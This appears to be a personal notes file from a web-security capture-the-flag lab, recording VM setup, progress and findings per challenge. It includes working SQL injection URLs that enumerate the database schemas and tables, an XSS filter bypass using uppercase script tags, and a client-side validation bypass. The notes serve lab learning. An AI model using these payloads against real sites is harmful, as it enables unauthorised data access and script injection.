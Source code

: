 # VirtualBox settings
1. System->Processor-> enable PAE
2. Host-only Adapter, name vboxnet0

# Notes to self
## Albatross (1 flag got)
* The URL is odd ?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c (64 characters, too)

## Feedback
* The **name** field allows HTML injection~~, but not XSS. Simply adding a `<script>` block does not return a flag (the tags are filtered out).~~
* Actually XSS **is** possible, it's just `<script>` (lowercase) tags that are filtered. `<SCRIPT>` works fine.
* Name can be left empty with `validate_required = () => true;`, is saved correctly

## Database
* There are 5 databases (+ information_schema):
  * `Member_Brute_Force, Member_Sql_Injection, Member_guestbook, Member_images, Member_survey`
  * http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+catalog_name%2C+schema_name+FROM+information_schema.schemata&Submit=Submit#
* The databases contain the following tables:
  * Member_Brute_Force: db_default
  * Member_Sql_Injection: users
  * Member_guestbook: guestbook
  * Member_images: list_images
  * Member_survey: vote_dbs
  * http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_schema%2C+table_name+FROM+information_schema.tables&Submit=Submit#
* The database uses InnoDB

## Image upload notes (1 flag got)
* Hidden input field `MAX_FILE_SIZE` sounds like a constant that should be on the server. The default is 100 kB, editing it doesn't appear to allow uploading larger files.
* MIME-type must be jpg
* Images are not added to database even if successfully uploaded (at least not `list_images`)
* Trying to upload multiple images appears to discard all but one of them

# Flag count
8/14
